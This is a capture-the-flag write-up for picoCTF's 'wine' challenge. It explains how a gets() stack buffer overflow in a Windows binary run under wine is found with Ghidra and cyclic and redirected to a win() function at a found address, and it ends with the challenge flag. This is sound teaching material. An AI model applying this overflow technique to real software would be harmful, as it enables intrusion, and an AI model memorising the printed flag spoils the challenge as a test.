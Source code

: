 # wine

Author: David

## Description

Challenge best paired with wine.
I love windows. Checkout my exe running on a linux box. You can view source here. And connect with it using [host, port]

## Solution

"Wine" in the challenge title and description refers to the `wine` application that can be installed on Linux. This allows EXE files to run on Linux systems, even though those files were meant for Windows.
Run the program with `wine`.
```
$ wine vuln.exe 
Give me a string!
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
Create a project in Ghidra and examine the `main()` function. Eventually, `main()` calls `vuln()`, and the code for that function looks like this:
```
void _vuln(void)

{
  char local_8c [136];
  
  _puts("Give me a string!");
  _gets(local_8c);
  return;
}
```
This allocates 136 characters for a variable called `local_8c`, which the program receives from us through the (very insecure) `gets()` function. This is the basis of the exploit. 
A simple buffer overflow challenges like this one requires only a few pieces of information:
    1. How many padding characters do we need to full the buffer?
    2. Where to we need to jump, or what to we need to overwrite?
    3. How is the exploit put together?

### Determining the number of characters...
This can be done with `cyclic`. (From `pwntools`; can be accessed directly from the command line.)
Create a cyclic string of 200 characters with `cyclic 200`, and then pipe that string into the program as input. When the program crashes, close wine's GUI debugger, and view the error information in the terminal. Here's the beginning of that output:
```
$ echo "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab" | wine ./vuln.exe 
Give me a string!
wine: Unhandled page fault on read access to 6261616B at address 6261616B (thread 0009), starting debugger...
Unhandled exception: page fault on read access to 0x6261616b in 32-bit code (0x6261616b).
Register dump:
 CS:0023 SS:002b DS:002b ES:002b FS:006b GS:0063
 EIP:6261616b ESP:0064fe20 EBP:6261616a EFLAGS:00010246(  R- --  I  Z- -P- )
 EAX:0064fd90 EBX:00230f14 ECX:0064fd80 EDX:7fa358b8
 ESI:00000040 EDI:00111874
Stack dump:
0x0064fe20:  6261616c 6261616d 6261616e 6261616f
0x0064fe30:  62616170 62616171 62616172 62616173
0x0064fe40:  62616174 62616175 62616176 62616177
0x0064fe50:  62616178 62616179 00230f00 00111874
0x0064fe60:  0064fe98 00000000 00000000 00000000
0x0064fe70:  00000000 00000000 00000000 00000000
```

Notice - "read access at "6261616B..." - those represent characters from our cyclic string, represented in hex. Luckily, `cyclic -l 0x6261616B` will tell us that this represents 140 characters. But what do we write?

### Writing to the win function
In CTF binary exploitation challenges, the goal of the exploit might be to redirect the program to the a "win" or "printflag" function. In this case it's a `win()` function.
`objdump -d vuln.exe` shows us the dissassembler output so we can find the address of the function. Below, I've edited the command for brevity in the output:
```
$ objdump -d vuln.exe | grep _win
00401530 <_win>:
  401551:	75 18                	jne    40156b <_win+0x3b>
  ```

0x0401530 is the address we need to write in order to move to the `win()` function.

### Notes on building the exploit 
* The address we include in our exploit needs to be packed in a specific way for the program to interpret it correctly. There are issues in doing this easily in Python3, so the script below works in Python2, and all imports are built-in.
* Wine apparently takes quite a while to load over the server. I've noticed it's anywhere from 1 to 15 seconds, so I've set the program to wait 15 seconds before trying to send or receive anything.
* Once sent, the our script will collect the flag and print it to our screen, and the connection between our machine and the server will be closed.

![wine_exploit.py] (scripts/wine_exploit.py)


**Flag: picoCTF{Un_v3rr3_d3_v1n_1b40efad}**
